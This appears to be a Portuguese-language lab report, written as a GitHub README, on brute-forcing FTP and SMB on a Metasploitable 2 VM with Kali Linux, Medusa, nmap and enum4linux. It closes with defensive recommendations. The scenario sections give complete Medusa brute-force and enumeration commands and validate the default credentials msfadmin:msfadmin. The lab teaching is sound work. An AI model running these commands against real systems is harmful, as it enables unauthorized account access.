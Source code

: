 # 🛡️ Relatório de Auditoria de Segurança: Força Bruta com Kali Linux e Medusa

## 📜 Visão Geral do Projeto

Este relatório documenta uma auditoria de segurança focada na simulação de ataques de **Força Bruta** contra serviços de rede comuns, utilizando as ferramentas **Kali Linux** e **Medusa**. O projeto visa demonstrar a criticidade do uso de credenciais robustas e a necessidade de mecanismos de defesa proativos.

**Alvo:** Máquina Virtual Metasploitable 2 (Ambiente de Teste Controlado)
**Ferramentas:** Kali Linux, Medusa, Nmap (para reconhecimento)

---

## ⚙️ I. Configuração do Ambiente e Reconhecimento

### 1. Topologia da Rede
* **Kali Linux (Atacante):** [192.168.227.129]
* **Metasploitable 2 (Alvo):** [192.168.227.128]
* **Tipo de Rede:** Host-Only.

### 2. Reconhecimento (Nmap)
* **Comando Nmap utilizado:** `nmap -sV 192.168.227.128`
* **Serviços Encontrados:** `ftp, ssh, telnet, smb...`

## 🧩 Requisitos e Preparação do Ambiente

**Pré-requisitos (na máquina atacante — Kali):**
- Kali Linux atualizado (rolling)
- Medusa (v2.x) instalado
- Hydra (opcional) / smbclient / enum4linux / nmap / tcpdump
- Wordlists dentro da pasta `wordlists/`
- Rede: VirtualBox Host-Only (Kali e Metasploitable na mesma rede interna)

**Configuração das VMs**
- Kali Linux (Atacante): IP ex.: `192.168.227.129`
- Metasploitable2 (Alvo): IP ex.: `192.168.227.128`
- Rede: tipo *Host-Only* (garante isolamento)

**Como reproduzir o laboratório (resumo)**
1. Inicie as duas VMs (Kali + Metasploitable2) em VirtualBox com adaptadores em Host-Only.
2. Confirme conectividade: `ping 192.168.227.128`
3. No Kali, verifique ferramentas instaladas:
   ```bash
   medusa -h | head -n 5
   nmap --version
   smbclient --version
   enum4linux -h

---

## ## II. Cenários de Ataque de Força Bruta

> **Observação:** Estes cenários foram executados em ambiente controlado (Metasploitable2) e documentados com evidências (logs e screenshots).

---

### Cenário 1: Quebra de Senha no Serviço FTP (Medusa)

| Protocolo | Porta | Wordlist Utilizada |
| :--- | :---: | :--- |
| FTP | 21 | wordlists/ftp_passwords.txt & users.txt |

**Alvo:** 192.168.227.128 (Metasploitable 2)  
**Ferramenta:** Medusa (`-M ftp`)  
**Objetivo:** Demonstrar força-bruta contra serviço FTP e validar credenciais obtidas.

#### Enumeração / Reconhecimento
```bash
# Reconhecimento rápido do serviço FTP
nmap -sV -p21 192.168.227.128 | tee nmap_ftp.txt

# Comando de Execução (Medusa)
`medusa -M ftp -h 192.168.227.128 -U wordlists/users.txt -P wordlists/ftp_passwords.txt -t 4 -v 4 -f |& tee medusa_ftp_run.log`

# Validação manual (exemplo) 
Use um cliente FTP para validar qualquer credencial encontrada:
`ftp 192.168.227.128
# ou, se preferir, use um cliente que permita user%pass no comando:
# curl --ftp-ssl -u user:password ftp://192.168.227.128/

---

### Cenário 2: Quebra de Senha no Serviço SMB (Medusa)

| Protocolo | Porta | Wordlist Utilizada |
| :--- | :---: | :--- |
| SMB | 139 & 445 | wordlists/smb_passwords_small.txt & wordlists/users.txt |

**Alvo:** 192.168.227.128 (Metasploitable 2)  
**Módulo Medusa:** `smbnt`  
**Objetivo:** Demonstrar força-bruta / password spraying em SMB e validar credenciais obtidas.

#### Enumeração / Reconhecimento
```bash
# Enumerar usuários e shares (salvar saída para evidência)
enum4linux -a 192.168.227.128 | tee enum4linux_all.txt
enum4linux -U 192.168.227.128 | tee enum4linux_users.txt
smbclient -L //192.168.227.128 -N | tee smbclient_shares.txt

# Comando de Execução (Medusa)
`medusa -M smbnt -h 192.168.227.128 -U wordlists/users.txt -P wordlists/smb_passwords_small.txt -t 2 -v 4 -f |& tee medusa_smb_run.log

# Validação manual (exemplo obrigatório)
# Validar credenciais encontradas (ex.: msfadmin:msfadmin)
smbclient //192.168.227.128/IPC$ -U 'msfadmin%msfadmin' -W WORKGROUP -c 'ls; exit' | tee smb_validation_msfadmin.log

# Extra: extrair resultados do log do Medusa
# procurar linhas que indiquem sucesso
grep -E "SUCCESS|FOUND|LOGIN" -i medusa_smb_run.log || true

---

## III. Recomendações de Mitigação e Defesa

Os ataques de Força Bruta contra serviços como FTP e SMB foram bem-sucedidos devido à utilização de senhas fracas e à ausência de mecanismos de limitação de taxa de conexão. Para mitigar o risco, as seguintes ações defensivas são recomendadas:

### 1. Política de Senhas Fortes
* **Forçar Complexidade:** Implementar uma política de senhas que exija um comprimento mínimo (idealmente 14+ caracteres) e a utilização de uma combinação de letras maiúsculas, minúsculas, números e símbolos.
* **Proibição de Padrões:** Banir senhas padrão, comuns ou de dicionário (como "msfadmin", "password", "user").

### 2. Controles de Acesso e Autenticação
* **Bloqueio de IP (Rate Limiting):** Implementar ferramentas de controle de acesso como **Fail2Ban** no servidor. Essa ferramenta monitora logs de autenticação e bloqueia automaticamente endereços IP (o seu alvo é `192.168.227.128`) que tentarem realizar *logins* malsucedidos repetidamente em um curto espaço de tempo.
* **Restrição de Serviços:** Se um serviço (como o FTP ou SMB) não for essencial para o acesso externo, restrinja-o para ser acessível apenas a partir de endereços IP confiáveis na rede interna.

### 3. Criptografia e Segurança do Serviço
* **Desabilitar ou Substituir Serviços Não Criptografados:** O FTP transmite credenciais em texto claro. Substitua o FTP por **SFTP (SSH File Transfer Protocol)** ou **FTPS**, que criptografam a comunicação.
* **Atualização do SO e Serviços:** O Metasploitable 2 está utilizando versões antigas de serviços (como o vsftpd 2.3.4). Manter o sistema operacional e os serviços atualizados garante que vulnerabilidades conhecidas (exploits) sejam corrigidas.
